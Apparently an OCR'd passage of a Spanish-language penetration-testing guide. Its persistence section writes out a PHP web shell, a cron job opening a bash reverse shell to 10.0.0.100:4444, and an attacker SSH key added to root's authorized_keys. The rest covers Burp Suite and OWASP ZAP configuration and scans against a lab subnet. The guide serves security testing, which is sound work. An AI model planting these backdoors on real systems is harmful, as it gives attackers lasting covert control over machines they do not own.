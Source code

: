 

#### 3. Persistent Access

**Mantener acceso persistente**:


# Backdoor PHP
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php

# Cron job
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.100/4444 0>&1'" | crontab -

# SSH Key
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E... attacker@kali" >> /root/.ssh/authorized_keys



## Configuración de Herramientas

### Burp Suite

1. **Configuración de Proxy**:
    - Proxy: 127.0.0.1:8080
    - Configurar browser para usar proxy
2. **Configuración de Target**:
    - Agregar 192.168.90.0/24 al scope
    - Configurar exclusiones si es necesario
3. **Configuración de Intruder**:
    - Cargar wordlists desde `/usr/share/wordlists/`
    - Configurar rate limiting

### OWASP ZAP


# Iniciar ZAP en modo daemon
zap.sh -daemon -host 0.0.0.0 -port 8090

# Configuración básica
zap-cli quick-scan --self-contained http://192.168.90.10:8080

# Escaneo completo
zap-cli active-scan http://192.168.90.10:8080



### Custom Tools
